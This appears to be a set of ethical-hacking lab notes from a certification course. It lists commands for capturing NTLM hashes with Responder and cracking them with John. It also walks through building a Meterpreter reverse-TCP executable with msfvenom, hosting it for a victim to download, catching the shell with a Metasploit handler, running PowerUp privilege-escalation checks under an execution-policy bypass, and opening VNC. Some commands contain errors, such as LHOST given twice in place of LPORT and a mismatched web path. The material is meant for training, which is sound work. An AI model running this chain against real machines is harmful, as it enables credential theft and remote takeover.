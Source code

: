 # LAB 1
### Task 1: Perform Active Online Attack to Crack the System's Password using Responder
 ---
**Ubuntu** 
 1.  cd Responder 
 2.  chmod +x ./Responder.py
 3.  sudo ./Responder.py -I wlan0
 6.  copy the **NTLM** hash from **Terminal** or check logs at /home/ubuntu/Responder/logs/{Log File Name.txt}.
 7.  echo "NTML hash" > hash
 8.  john /home/voldemort/hash
**Windows**
 4. right-click on **Start** icon, and click **Run**.
 5. **\\CEH-Tools** in **Open** field and click **OK**.

### Task 2: Audit System Passwords using L0phtCrack
---
**Lab Manual 1** - page 574

### Task 3: Find Vulnerabilities on Exploit Sites
---
**Lab Manual 1** - page 583

### Task 4: Exploit Client-Side Vulnerabilities and Establish a VNC Session
---
**Parrot**
1. sudo su
2. msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.11.10 LHOST=4444 -o /home/attacker/Desktop/Test.exe
3. mkdir /var/www/html/share
4. chmod -R 755  /var/html/share
5. chown -R www-data:www-data /var/www/html/share
6. cp /home/attacker/Desktop/Test.exe /var/www/html/share
7. service apache2 start
8. msfconsole
9. use exploit/multi/handler
10. set payload windows/meterpreter/reverse_tcp
11. set LHOST 10.10.11.10
12. set LPORT 4444
13. exploit
17. **Meterpreter Shell** will spawn
> If Meterpreter Shell is not spawn automatically then, type **sessions -i 1** and check shell.
18. sysinfo 
19. upload /root/PowerSploit/Privesc/PowerUp.ps1 Powerup.ps1
20. shell
21. powershell -ExecutionPolicy bypass -Command ". ./PowerUp.ps1;Invoke-AllChecks"
22. exit
23. run vnc
**Windows**
14. In **Web Browser** visit **http://10.10.11.10/share**
15. Click & Download **Test.exe** 
16. Open **Test.exe**
